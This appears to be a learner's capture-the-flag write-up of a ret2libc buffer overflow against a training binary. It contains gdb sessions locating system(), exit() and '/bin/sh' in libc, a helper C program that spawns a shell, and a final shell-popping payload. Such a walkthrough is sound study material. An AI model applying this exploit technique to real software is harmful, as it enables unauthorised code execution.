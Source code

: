 <h3> Brief code overview</h3>

```
main() calls getpath()

which declares:
buffer[64]
ret;

then asks for intput.  gets(buffer) which is the input

ret = __builtin_return_address(0);
```


`__builtin_return_address(0)` gets the address of the current function.

current getpath() address `08048484`

After reading [shellblade.net/docs/ret2libc.pdf](shellblade.net/docs/ret2libc.pdf) which describes ret2libc attacks I made great progress!  

<h3>Finding the saved $EBP overwrite</h3>
I figured out how to overwrite the `RET` address.  The buffer was 64 chars, but to overwrite past it required 80 bytes. I passed the required 80 bytes to overwrite the buffer. Then 4 more to overwrite $EBP and 4 more to overwrite RET. The following below (after converting `FFFF` to `\xFF\xFF\xFF\xFF`) printed out the `bzzzt` within the `IF` statement indicating I was doing it right.  

```
buf="A"*64+"BBBB"+"CCCC"+"DDDD"+"EEEE"+"\xFF\xFF\xFF\xFF"
payload=""

print buf+payload
```

<h3> Shell try 1</h3>
Time to continue on and try and pop a shell!

After continuing reading through the shellblade ret2libc I decided to copy their C program that sets an environment variable `EGG` to `/bin/sh`, then on re-running the program prints the estimated address of this environment variable, which we will overwrite RET with.


```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv)
{
        char *ptr = getenv("EGG");
        if (ptr !=NULL)
        {
                printf("address:%p\n", ptr);
                return 0;
        }
        printf("set EGG\n");
        setenv("EGG", "/bin/sh", 1);
        execl("/bin/sh", (char *)NULL);
}
```

After running it twice the estimated address is `0xbffffa0f`

Next was not to just blindly paste this as at the end of our payload, but to actually find the correct address of `system()` and `exit`, and our environment variable.

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>

(gdb) x4/s 0xbffffa0f
<removed. EGG=/bin/sh  WASNT THERE. Print out more!>

(gdb) x80/s 0xbffffa0f
<removed>
0xbfffff7c:	 "SHELL=/bin/sh"
<removed>
```
**important note:** the address of `SHELL="/bin/sh"` is `0xbfffff7c`, but `/bin/sh` is what we want, so because `SHELL=` is 5 bytes we add 5 bytes, getting `0xbfffff81`.

Since bzzzzt is printing `\xFF\xFF\xFF\xFF` this is where the payload needs to start. This value needs to be replaced with the memory address of `system`, followed by address of `end` and then finally our payload, the memory address of the string `/bin/sh`. There are 2 ways to get this value, one is using an environment variable (which I tried, but did get to work. which is the `0xbfffff7c` above). The other is to find `/bin/sh` inside of libc.  

<h3>Shell try 2</h3> 
<h4>Finding /bin/sh in libc</h4>
`info proc map` to find where /lib/lib2c is located in memory

Result:
`0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so`

use find to attempt to find the `/bin/sh` string from this address onward.
`find 0xb7e97000, +999999999, "/bin/sh"`


Result:

`Unable to access target memory at 0xb7fd9647, halting search.
1 pattern found.
(gdb) find 0xb7e97000, +99999999, "/bin/sh"
0xb7fba23f`


`strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"`

result =`11f3bf /bin/sh`

go back to gdb, and verify `/bin/sh` is actually here.  This is actually the offset from 0xb7e97000 (how far into libc /bin/sh appears).

`x/s 0xb7e97000+0x11f3bf `
Result:
`0xb7fb63bf:	 "/bin/sh"`



<h4>Solution (Putting it all together)</h4>

So now we know `"/bin/sh"` is at `0xb7fb63bf` we can simply change our previously incorrect value of `0xbfffff81` to `0xb7fb63bf` and see if it works.

Success!!

```
buf="A"*64+"BBBB"+"CCCC"+"DDDD"+"EEEE"#+"\xFF\xFF\xFF\xFF"

payload="\xb0\xff\xec\xb7"+"\xc0\x60\xec\xb7"+"\xbf\x63\xfb\xb7"#+"\x81\xff\xff\xbf"


print buf+payload
```


